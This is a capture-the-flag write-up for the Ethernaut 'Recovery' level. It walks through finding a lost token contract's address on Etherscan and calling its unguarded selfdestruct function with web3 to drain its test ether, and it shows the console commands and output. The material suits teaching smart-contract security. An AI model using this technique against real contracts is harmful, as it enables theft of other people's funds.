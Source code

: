 # 17 - Recovery

## Challenge

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.001 ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

## Walkthrough

This is a simple challenge. Basically, we need to retrieve the funds from the lost address of contract created using `Recovery`'s first transaction. As a CTF player, we instantly think of OSINT the lost address on `EtherScan`. After that, we can just call `destroy` on the lost address to retrieve the funds.

```js
> await contract.address
'0x2F5CE6B3fE9F11Aa8a251Fb2E609EE29f2fE603E'
```

Now we can go to [https://goerli.etherscan.io/address/0x2F5CE6B3fE9F11Aa8a251Fb2E609EE29f2fE603E](https://goerli.etherscan.io/address/0x2F5CE6B3fE9F11Aa8a251Fb2E609EE29f2fE603E), in "Internal Transactions" tab, click into [Contract Creation](https://goerli.etherscan.io/address/0x4eb642b98fb0f1dcd939aad76e3bffe89b54028b#internaltx) and we will see the lost address in "Internal Transactions" tab.

![EtherScan](image.png)

Now we utilize `web3` to call `destroy` on the lost address from `player` account. We can of course use `cheb3` but I find browser console more convenient in this case.

```js
> functionSignature = {
    name: 'destroy',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_to'
        }
    ]
}
{name: 'destroy', type: 'function', inputs: Array(1)}
> params = [player]
['0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB']
> data = web3.eth.abi.encodeFunctionCall(functionSignature, params)
'0x00f55d9d0000000000000000000000000b26c24d538e3dff58f7c733535e65a6674fb3ab'
> await web3.eth.sendTransaction({from: player, to: '0x4eb642b98Fb0F1dcD939aAD76e3BffE89B54028b', data})
{blockHash: '0xb4df2dc434696f11fdb1f21f4d13044c41ebffda291f53bd81949a5caf8cc155', blockNumber: 9225229, contractAddress: null, cumulativeGasUsed: 1045157, effectiveGasPrice: 2500000013, …}
```

Finally, submit the instance to pass the level.

## Afterword

Intended of course, is not this. Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Read [this walkthrough](https://medium.com/coinmonks/ethernaut-lvl-18-recovery-walkthrough-how-to-retrieve-lost-contract-addresses-in-2-ways-aba54ab167d3) for this approach.